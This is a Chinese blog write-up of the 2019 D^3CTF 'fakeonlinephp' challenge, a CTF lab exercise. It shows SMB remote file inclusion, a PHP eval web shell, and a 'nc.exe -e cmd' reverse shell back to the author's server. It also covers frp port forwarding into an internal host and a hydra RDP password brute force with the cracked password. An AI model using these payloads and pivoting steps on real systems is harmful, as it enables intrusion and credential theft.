<!--yml
category: 未分类
date: 2022-04-26 14:41:56
-->

# 2019 D^3CTF_wp：fakeonlinephp解法（类实网渗透）_Smity(Liu)的博客-CSDN博客

> 来源：[https://blog.csdn.net/m0_37871444/article/details/103234503](https://blog.csdn.net/m0_37871444/article/details/103234503)

# 2019 D^3ctf fakeonlinephp 题解

## 外网渗透部分

这个题目是hitcon2018的原题，正解网络上很多了

```
<?php ($_=@$_GET['orange']) && @substr(file($_)[0],0,6) === '@<?php' ? include($_) : highlight_file(__FILE__); 
```

直接搜索，不再重复

但是我们这里采用一个更为直接的办法

### smb协议利用导致远程文件包含

这个办法对于国内服务器是不能够实现的，因为不论是阿里云还是腾讯云啥的，都把445端口关了，但是如果你硬要用国内服务器，还有一个办法叫webdav，可以参考https://xz.aliyun.com/t/5535这篇文章里p神的payload


但是如果用这个方法，你就不能使用一句话木马了，必须要做免杀，不然会被include函数自己本身的defender给拦截。

我在这里使用的是国外的服务器，搭建了一个smb，然后马子里面就是简单的exec()函数。

```
http://35547429ed.fakeonelinephp.d3ctf.io/?orange=\\************\share\test5&a=dir 
```



## 继续分析

到了这步我开始猛找flag，发现没有任何一个地方有，其实花了很久没看懂到底要咋进行下一步，后来看到了.git目录，被队里的其他师傅提示了要恢复git才得以继续。
首先尝试了git泄露，但是没有成功


虽然没泄露，但是看这个提示，可以感觉到出题人还是希望我们去研究git这个文件夹，用其他方式泄露出来文件，所以我们必须去服务器上把整个git文件夹脱下来
再写一个马子

```
@<?php

if($_GET['file']){
        die(file_get_contents($_GET['file']));}
@eval($_POST["a"]);
var_dump($a);

?> 
```

这个是给蚁剑连接用的


蚁剑连接后直接拖，但是这里看到有mydir.zip，还有a.zip，应该是出题人或者其他做题人打包好的，直接下载。

分析git文件的步骤如下：
1.首先你得新建一个文件夹test
2.在test文件夹里再新建一个.git文件
3.这道题是windows上打包的，文件名都带有引号，在linux上重新解压打包后再放到linux去分析，文件名才正常
4.把zip压缩包的的内容全部解压到.git文件夹下。
5.然后就可以执行命令了，git的命令一班要在./git的同级目录下执行，而不能进入/.git目录执行

### 恢复git

git reflog 可以查看所有分支的所有操作记录（包括（包括commit和reset的操作），包括已经被删除的commit记录，git log则不能察看已经删除了的commit记录，而且跟进结果可以回退道某一个修改


出题人似乎删除了某个分支。

这个时候利用git reflog可以看到所有操作日志

确实有其他分支
我们首先查看一下ref/heads/master


再利用grep -rnw . -e 93001be167f7be04dd70277c5ce7738faa69d4c8
查看可以被恢复的文件


使用branch命令重新创建这个分支
git checkout -b tql 3638ddf8a7fe866ae74164503cc5c1f38da7b18b

查看两个文件的内容

发现还有一层内网，并且有一个密码字典，然后提示admin用户，肯定就是内网的rdp密码爆破了，要连接那台机器的远程桌面
那么我们肯定要命令执行，但是蚁剑在这题不能够进行windows的命令执行，这里开始就是个人平时的渗透经验了，对于很多不是打ctf但是玩渗透的师傅来说属于基本操作

要打内网首先要能够建立内外网连接互通，因为只是一个3389的事情，所以考虑端口转发，这里讲几个工具，ppp.exe（plink），frp，nc.exe，ssh.exe，我使用的是frp，因为有界面，比较好看连接状态
拖入nc.exe和frpc客户端

### 网络拓扑

172.19.97.8(flag)<------>外网服务器<------->自己的linux_server<----->自己的pc机

具体解法：在外网服务器上搭建代理，将内网172机器的3389端口转发到自己的公网linux_server的某个端口上，然后利用linux里的hydra爆破密码，最后用自己pc机的远程桌面连接公网那个端口

windows内网机器渗透基本操作第一步，先拖入nc.exe，并且一定是两个版本，32位和64位



nc.exe -e cmd 反弹shell

```
http://35547429ed.fakeonelinephp.d3ctf.io/?orange=\\**********\share\test5&a=..\..\..\..\nc2.exe+-e+cmd+******+30023 
```

在自己的服务器上监听30023端口，然后等shell过来


通过蚁剑修改web服务器主机上的frpc.ini
server_port是服务器上启动frps的端口
remote是指把本地端口3389转发到的远程端口30016端口
local_ip = 172.19.97.8是因为我们要转发的是172.19.97.8这台内网机器，而不是127.0.0.1这台外网web机器。

```
 [common]

server_addr = ********
server_port = 30011
auto_token=12345678@com
[RDP3389_2]
type = tcp
local_ip = 172.19.97.8
local_port = 3389
remote_port = 30016
subdomain = yk 
```



然后修改自己linux_server机器上的frps.ini
注意端口要对应，bind_port是frp服务的端口
dashboard_port = 30013是指可以通过30013端口访问服务器frp的控制页面，然后下面两行是登录这个控制页面的用户名密码

```
[common]

bind_addr=0.0.0.0

bind_port = 30011

auto_token=12345678@com

dashboard_port = 30013

dashboard_user = admin

dashboard_pwd = admin 
```


内网运行命令开启frp客户端
frpc.exe -c frpc.ini

外网运行命令开启frps服务端
./frps -c frps.ini
（这个地方先开那个无所谓，因为frpc客户端连不上会一直尝试自动重连，直到连接成功为止，当然最好是服务端先开）

然后访问我们公网ip加30013端口查看连接状态，发现代理成功，现在172.19.98.7这台内网机器的3389端口就被我们转到了公网服务器的30016端口上，连接公网服务器的30016端口就相当于连接内网的3389端口



### hydra爆破

这快会有一个坑，如果大家直接下载的是github官网上的hydra，那么会爆这个错误

```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-11-23 15:51:02
[ERROR] Compiled without FREERDP2 support, module not available! 
```

这个是release版本的hydra没有安装freedrp这个库，所以不支持rdp://协议，必须自己下载freerdp这个模块，然后编译进去

弄好以后，用hydra的命令爆破

```
#hydra -l Administrator -P dict.txt rdp://ip:30016

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-11-23 22:13:23
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) 
...
…
[ATTEMPT] target ip - login "Administrator" - pass "E0uZuSyKmHNklKN" - 6378 of 10009 [child 1] (0/9)
[ATTEMPT] target IP - login "Administrator" - pass "3RHlawCQ3GfM9Cq" - 6379 of 10009 [child 3] (0/9)
[12345][rdp] host: ip   login: Administrator   password: eDHU27TlY6ugslV
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-11-23 22:40:06 
```

所以这个远桌面的连接密码是eDHU27TlY6ugslV

### 进入远程桌面

直接在自己的机器上打开远程桌面连接



